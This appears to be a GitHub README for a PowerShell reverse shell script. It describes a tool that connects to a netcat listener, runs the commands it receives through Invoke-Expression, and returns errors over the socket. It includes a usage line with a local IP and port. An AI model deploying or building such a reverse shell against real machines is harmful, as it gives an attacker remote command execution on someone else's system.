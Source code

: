 # PowerShell-Reverse-Shell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

# Usage:
    ./pwsh_revshell.ps1 


    pwsh_revshell -ip 127.0.0.1 -port 3333
